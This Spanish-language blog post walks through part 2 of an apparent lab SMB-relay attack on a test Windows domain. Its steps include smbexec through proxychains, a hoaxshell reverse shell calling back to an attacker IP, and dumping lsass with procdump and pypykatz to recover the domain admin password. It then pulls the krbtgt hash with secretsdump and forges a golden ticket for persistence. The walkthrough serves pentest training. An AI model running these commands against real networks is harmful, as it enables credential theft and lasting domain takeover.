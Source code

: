 ```yaml
---
layout: single
title: Smb Relay - Parte 2
excerpt: "En esta segunda parte veremos como accder al PC02 utilizando proxychains y aprovechando el reenvío de credenciales, además de poder ver en texto claro las credenciales guardadas en el administrador de credenciales para conectarnos al controlador de dominio. Para finalizar conseguiremos persistencia en el DC1 generando un golden ticket para poder acceder sin necesidad de utilizar contraseña."
date: 2022-10-16
classes: wide
header:
  teaser: /assets/images/Smb-Relay/responder2.png
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Privilege Escalation
  - Pentesting
---
```


En esta segunda parte veremos como accder al PC02 utilizando proxychains y aprovechando el reenvío de credenciales, además de poder ver en texto claro las credenciales guardadas en el administrador de credenciales para conectarnos al controlador de dominio. Para finalizar conseguiremos persistencia en el DC1 generando un golden ticket para poder acceder sin necesidad de utilizar contraseña."

## Acceso inicial

Ahora vamos a ganar acceso a la máquina PC02, de la siguiente forma. Ejecutamos proxychains smbexec.py -no-pass 'SIETEREINOS'/'JON'@'192.168.0.169' -debug -service-name test y directamente estamos dentro de la máquina PC02 con privilegios de system, los más elevados.

![](/assets/images/Smb-Relay/smbexec.png)

Pero esta consola es semi-interactiva, así que vamos a pasarnos a una consola totalmente interactiva de powershell con [hoaxshell](https://github.com/t3l3machus/hoaxshell) 

```bash
python3 hoaxshell.py -s 192.168.0.116 -H "Authorization"
```
Copiamos el comando que nos indica hoaxshell y lo ejecutamos en nuestra consola smbexec para obtener acceso con powershell.

![](/assets/images/Smb-Relay/hoaxshell.png)

![](/assets/images/Smb-Relay/cmd.png)

![](/assets/images/Smb-Relay/powershell.png)

## Acceso al controlador del dominio

El usuario de la máquina PC02 es un poco confiado y, además de guardar contraseñas en el navegador tiene la contraseña del administrador del dominio almacenada. Vamos a ver como podríamos verla.

![](/assets/images/Smb-Relay/creds.png)

Descargamos la herramienta [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) de la suite de sysinternals, del propio microsoft. Lo descomprimimos y vamos a tranferir a la máquina PC02 el archivo procdump64.exe, levantamos un servidor smb en nuestra máquina de atacante (smbserver.py -smb2support ximo .) y copiamos el archivo desde el PC02 (copy \\\192.168.0.116\ximo\procdump64.exe procdump64.exe).

```bash
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

![](/assets/images/Smb-Relay/procdump.png)

Nos tranferimos el archivo a nuestra máquina (copy lsass.dmp \\\192.168.0.116\ximo\lsass.dmp) y vamos a ver si con pypykatz podemos extraer esa contraseña.

```bash
pypykatz lsa minidump lsass.dmp
```
![](/assets/images/Smb-Relay/pypykatz.png)

Pypykatz nos muestra la contraseña en texto claro y tenemos la contraseña del administrador del dominio (!P@ssw0rd).

En este punto ya podemos conectarnos al servidor con evil-winrm.

![](/assets/images/Smb-Relay/evil.png)

## Persistencia con Golden Ticket

Vamos a generar un ticket de kerberos, firmado con el hash de la cuenta del usuario krbtgt, que es el encargado de firmar los tickets de kerberos, con lo cual el servidor pensará, cuando utilicemos el ticket, que ya hemos pasado la fase de validación de la contraseña y nos dará acceso aunque no usemos ninguna contraseña. Podremos acceder al servidor siempre que queramos aunque nos cambien la contraseña del administrador.

Lo primero que necesitaremos es el hash de la contraseña del usuario krbtgt. Lo podemos averiguar con secretsdump.

```bash
secretsdump.py Administrador:'!P@ssw0rd'@192.168.0.100 | grep krbtgt | grep :::
```

Lo siguiente que necesitamos es el SID del dominio. Esto lo sacamos con lokkupsid.

```bash
lookupsid.py sietereinos.local/Administrador:'!P@ssw0rd'@192.168.0.100
```
![](/assets/images/Smb-Relay/sid.png)

Ahora con la herramienta ticketer crearemos el ticket.

```bash
ticketer.py -nthash 96fe190f31307691486d57de87e59f56 -domain-sid S-1-5-21-4181028088-1212197574-1834492528 -domain sietereinos.local Administrador
```

Solo nos falta exportar una variable de entorno para poder conectarnos al servidor.

```bash
export KRB5CCNAME=/workspace/Administrador.ccache
```

Ya nos podemos conectar siempre que queramos sin utilizar contraseña con wmiexec, con el parámetro -k para utilizar kerberos con el ticket exportado en la variable de entorno y con -no-pass para indicarle que no utilice contraseña.

```bash
wmiexec.py -k -no-pass sietereinos.local/Administrador@dc1.sietereinos.local
```
![](/assets/images/Smb-Relay/ticket.png)


